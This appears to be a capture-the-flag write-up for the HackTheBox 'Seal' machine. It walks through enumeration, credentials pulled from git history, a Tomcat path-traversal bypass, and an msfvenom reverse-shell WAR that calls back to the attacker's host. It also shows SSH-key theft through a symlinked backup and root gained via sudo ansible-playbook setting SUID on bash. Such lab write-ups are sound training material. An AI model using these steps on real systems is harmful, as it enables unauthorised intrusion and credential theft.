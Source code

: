 # HackTheBox - Seal

## Introduction
This box was quite an interesting box. It is a medium box in HTB with Linux as it's Operating System. So let's go through my walkthrough.

### 1. Enumeration
When i joined the box, i was given the ip address of box as `10.10.10.250`. As always i started with my `nmap` scan
```
> nmap -sC -sV -A -oN nmap_initial 10.10.10.250 
```

![](images/2021-07-22-21-14-18.png)

From the above nmap scan, we quickly found out that there is a https service running on port **443** whereas another http-proxy service running on port **8080**. We can also see a recommendation for host name as `seal.htb`. Setting the host configuration, let's check the website hosted on port 443.

The website in port 443 looks like a fancy version of some vegetable market. Looking at port 8080, we see a blank page. Observing the response for the request, we see unauthorized error. Then i decided to fuzz for endpoints to see if we can get anything
```
> ffuf -u http://10.10.10.250:8080/FUZZ -w /mnt/hack/wordlist/common.txt -ac
```

![](images/2021-07-22-21-51-15.png)

We can see there are two endpoints available. Going through register endpoint, we can see that we can create an account in gitbucket. So registering and signing in to gitbucket service, we see two repos by root **infra** and **seal_market**.

Looking at **seal_market** repo, we can quickly find that this service is running on port 443, so this looks interesting.

Reading the `README.md` file,

![](images/2021-07-22-21-55-19.png)

So First we know that nginx is just relaying the request to backend tomcat server and secondly the configuration for this server is not the newest as shown in the repos so we can search through commit as the older configuration might be vulnerable.
And Lastly we know that we have access to manager and host-manager from the https://seal.htb/ so let's try that.

![](images/2021-07-22-21-56-39.png)

Well we should have access to it as said in the `README` then I thought maybe we have access to some other endpoint in manager.
So let's fuzz and see we know that it is tomcat so it's better to use specialized wordlist for that.
I am using one from the seclist which you can find at the below link.
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/tomcat.txt

```
> ffuf -k -u https://seal.htb/FUZZ -w tomcat.txt -c
```

![](images/2021-07-22-21-59-04.png)

Looks like we can access https://seal.htb/manager/status.xsd
and also we have https://seal.htb/manager/jmxproxy
and yeah it's asked from creds so let's go on finding those in some previous commit as we know that it is using old tomcat configuration from the README.md file.

Looking through commits on this repo we have 13 commit which wouldn't be much to look through.
http://seal.htb:8080/root/seal_market/commits/master
The commit looks intresting in our context which is 'adding tomcat configuration' and 'updating tomcat configuration' as we know that updating configuration is probably the current version let's check 'adding tomcat configuration' first.

We can see that there is a file named tomcat-user.xml, where we find some credentials.

![](images/2021-07-22-22-03-34.png)

Now we have username and password let's try to login on https://seal.htb/manager/jmxproxy and boom we are in the manager pannel.

Looking for exploit for tomcat I found an intresting path traversal exploit in tomcat which uses reverse proxy which is the case here as nginx is used as reverse proxy for tomcat running on localhost.

https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

So from above article we can try directory path traversal to exploit and access forbidden page.
`https://seal.htb/manager/jmxproxy/..;/html`
this takes us to the home page of tomcat manager. Now as we can deploy war file we can just get the reverse shell easily.

### 2. Malicious Payload
So first let's generate war payload.
```
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.188 LPORT=9001 -f war -o myshell.war
```

Now let's upload the war file and intercept the request so that we can modify our url as we are not allowed to directly access html.

![](images/2021-07-23-20-54-11.png)

Now listen to any connection on our mentioned port
```
> rlwrap nc -vnlp 9001
```
and trigger the rev shell. And boom we have the reverse shell.

We quickly find that the **user.txt** file is in `/home/luis/` but we cannot view as a tomcat user which we are authorized as. Looking at the process running, this thing caught my eye as there was .ansible directory in luis home directory and there is a process running as luis probably a backup service.
```bash
> ps -aux
```

![](images/2021-07-23-21-02-24.png)

Taking a look at run.yml,
```yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

```
The intresting part in this thing is that it also copies the symblink also as it has copy_links=yes. So this gave me an idea to create a symblink of file or folder. Looking at the permission of the folder we can see that we have read and write access only to subfolder i.e. we can write in `uploads` folder.

Now we have to think of what to symlink. So we know the user luis have .ssh directory so that might be intresting so let's try that.
```
> ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

Now wait for it to create the new archive.
After that creates the new archive it usually takes about a minute to do so, so be patient.
After you have the archive just move it to /dev/shm cause you cannot extract the archive in that folder as it is read only.
```
> cp backup-2021-07-23-15:35:33.gz /dev/shm/back.gz
```
Let's decrypt it with following commands
```
> gzip -kd back.gz
> tar -xf back
```
Then we can find the folder named `dashboard` where we can get `.ssh` inside uploads and we now have ssh key for user luis. Now let's use it to ssh into box as user luis.
For that first save the `id_rsa` file into your local device and
```
> chmod 600 id_rsa
> ssh -i id_rsa luis@10.10.10.250
```

Then we get a shell as user luis. So we can now get the user flag.

![](images/2021-07-23-21-18-56.png)

### 3. Privilege Escalation
Now we know what to do first, don't we ?
```
> sudo -l
```

![](images/2021-07-23-21-20-18.png)

We can see that we are allowed to run `ansible-playbook` as a root user without password using `sudo` command.

A little google search let us know that we can create a yml file and use it to run any command as root. So let's create a yml file
```yml
- hosts:localhost  
  tasks:
  - name : root
    command : chmod +s /bin/bash
```
Let's execute this yml file,
```bash
> sudo ansible-playbook root.yml
```

Now let's run that suid bit `/bin/bash`
```bash
> /bin/bash -p
```

![](images/2021-07-23-21-32-29.png)

Now we can get the root flag.

#### Conclusion
Root flag was comparatively easier than that of user flag.